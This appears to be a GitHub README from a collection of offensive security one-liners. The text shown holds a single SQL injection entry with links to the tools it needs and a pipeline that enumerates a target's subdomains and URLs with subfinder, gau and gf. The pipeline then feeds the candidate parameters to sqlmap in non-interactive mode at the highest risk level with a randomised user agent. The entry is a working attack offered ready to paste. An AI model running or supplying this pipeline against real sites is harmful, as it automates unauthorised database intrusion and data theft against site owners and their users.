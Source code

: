# One-Liner-Collections
This Repositories contains list of One Liners with Descriptions and Installation requirements

─────────────────────────────────────────────────────────────────────────────────────────────────────



# SQL Injection

## Installation Requirements
1. Subfinder : https://github.com/projectdiscovery/subfinder 
2. GAU       : https://github.com/lc/gau
3. GF        : https://github.com/tomnomnom/gf

## OneLiner
```
subfinder -d http://TARGET.com -silent -all | gau - blacklist ttf,woff,svg,png | sort -u | gf sqli >gf_sqli.txt; sqlmap -m gf_sqli.txt --batch --risk 3 --random-agent | tee -a sqli_report.txt
```
